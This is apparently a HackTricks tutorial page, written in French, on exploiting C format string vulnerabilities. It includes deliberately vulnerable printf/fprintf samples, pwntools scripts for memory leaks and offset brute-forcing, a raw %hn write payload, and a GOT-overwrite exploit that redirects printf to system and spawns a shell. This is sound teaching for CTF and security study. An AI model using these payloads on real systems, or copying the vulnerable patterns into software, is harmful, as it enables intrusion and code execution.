 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

En C, **`printf`** est une fonction qui peut être utilisée pour **imprimer** une chaîne. Le **premier paramètre** que cette fonction attend est le **texte brut avec les formatteurs**. Les **paramètres suivants** attendus sont les **valeurs** à **substituer** aux **formatteurs** du texte brut.

D'autres fonctions vulnérables sont **`sprintf()`** et **`fprintf()`**.

La vulnérabilité apparaît lorsqu'un **texte d'attaquant est utilisé comme premier argument** de cette fonction. L'attaquant pourra créer une **entrée spéciale abusant** des capacités de **format de printf** pour lire et **écrire des données à n'importe quelle adresse (lisible/écrivable)**. Cela lui permettant ainsi d'**exécuter du code arbitraire**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Exemples :**

* Exemple vulnérable :
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Utilisation normale :
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Avec des arguments manquants :
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnérable :
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Accéder aux Pointeurs**

Le format **`%<n>$x`**, où `n` est un nombre, permet d'indiquer à printf de sélectionner le n-ième paramètre (de la pile). Donc, si vous voulez lire le 4ème paramètre de la pile en utilisant printf, vous pourriez faire :
```c
printf("%x %x %x %x")
```
et vous liriez du premier au quatrième paramètre.

Ou vous pourriez faire :
```c
printf("%4$x")
```
et lire directement le quatrième.

Remarquez que l'attaquant contrôle le paramètre `pr`**`intf`**, ce qui signifie essentiellement que** son entrée sera dans la pile lorsque `printf` est appelé, ce qui signifie qu'il pourrait écrire des adresses mémoire spécifiques dans la pile.

{% hint style="danger" %}
Un attaquant contrôlant cette entrée pourra **ajouter des adresses arbitraires dans la pile et faire en sorte que `printf` y accède**. Dans la section suivante, il sera expliqué comment utiliser ce comportement.
{% endhint %}

## **Lecture Arbitraire**

Il est possible d'utiliser le formatteur **`%n$s`** pour faire en sorte que **`printf`** obtienne l'**adresse** située à la **n position**, la suivant et **l'imprimer comme si c'était une chaîne** (imprimer jusqu'à ce qu'un 0x00 soit trouvé). Donc, si l'adresse de base du binaire est **`0x8048000`**, et que nous savons que l'entrée utilisateur commence à la 4ème position dans la pile, il est possible d'imprimer le début du binaire avec :
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Notez que vous ne pouvez pas mettre l'adresse 0x8048000 au début de l'entrée car la chaîne sera coupée à 0x00 à la fin de cette adresse.
{% endhint %}

### Trouver l'offset

Pour trouver l'offset de votre entrée, vous pouvez envoyer 4 ou 8 octets (`0x41414141`) suivis de **`%1$x`** et **augmenter** la valeur jusqu'à récupérer les `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Utilité

Les lectures arbitraires peuvent être utiles pour :

* **Dump** le **binaire** de la mémoire
* **Accéder à des parties spécifiques de la mémoire où des informations sensibles** **sont stockées** (comme des canaris, des clés de chiffrement ou des mots de passe personnalisés comme dans ce [**défi CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Écriture Arbitraire**

Le formatteur **`$<num>%n`** **écrit** le **nombre de bytes écrits** à l'**adresse indiquée** dans le paramètre \<num> dans la pile. Si un attaquant peut écrire autant de caractères qu'il le souhaite avec printf, il sera capable de faire en sorte que **`$<num>%n`** écrive un nombre arbitraire à une adresse arbitraire.

Heureusement, pour écrire le nombre 9999, il n'est pas nécessaire d'ajouter 9999 "A"s à l'entrée, pour ce faire, il est possible d'utiliser le formatteur **`%.<num-write>%<num>$n`** pour écrire le nombre **`<num-write>`** à l'**adresse pointée par la position `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Cependant, notez qu'en général, pour écrire une adresse telle que `0x08049724` (qui est un énorme nombre à écrire d'un coup), **on utilise `$hn`** au lieu de `$n`. Cela permet de **n'écrire que 2 octets**. Par conséquent, cette opération est effectuée deux fois, une pour les 2 octets les plus élevés de l'adresse et une autre fois pour les plus bas.

Par conséquent, cette vulnérabilité permet de **tout écrire à n'importe quelle adresse (écriture arbitraire).**

Dans cet exemple, l'objectif sera de **surcharger** l'**adresse** d'une **fonction** dans la table **GOT** qui sera appelée plus tard. Bien que cela puisse abuser d'autres techniques d'écriture arbitraire pour exécuter :

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Nous allons **surcharger** une **fonction** qui **reçoit** ses **arguments** de l'**utilisateur** et **pointer** vers la **fonction** **`system`**.\
Comme mentionné, pour écrire l'adresse, généralement 2 étapes sont nécessaires : Vous **écrivez d'abord 2 octets** de l'adresse puis les autres 2. Pour ce faire, **`$hn`** est utilisé.

* **HOB** est appelé pour les 2 octets supérieurs de l'adresse
* **LOB** est appelé pour les 2 octets inférieurs de l'adresse

Ensuite, en raison de la façon dont fonctionne la chaîne de format, vous devez **écrire d'abord le plus petit** de \[HOB, LOB] puis l'autre.

Si HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Si HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modèle Pwntools

Vous pouvez trouver un **modèle** pour préparer un exploit pour ce type de vulnérabilité dans :

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ou cet exemple de base [**ici**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) :
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Chaînes de format à BOF

Il est possible d'abuser des actions d'écriture d'une vulnérabilité de chaîne de format pour **écrire dans des adresses de la pile** et exploiter une vulnérabilité de type **dépassement de tampon**.

## Autres exemples et références

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, pas de relro, pas de canary, nx, pas de pie, utilisation de base des chaînes de format pour leak le flag de la pile (pas besoin de modifier le flux d'exécution)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écraser l'adresse `fflush` avec la fonction win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écrire une adresse à l'intérieur de main dans `.fini_array` (pour que le flux boucle encore une fois) et écrire l'adresse vers `system` dans la table GOT pointant vers `strlen`. Lorsque le flux revient à main, `strlen` est exécuté avec l'entrée utilisateur et pointant vers `system`, il exécutera les commandes passées.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
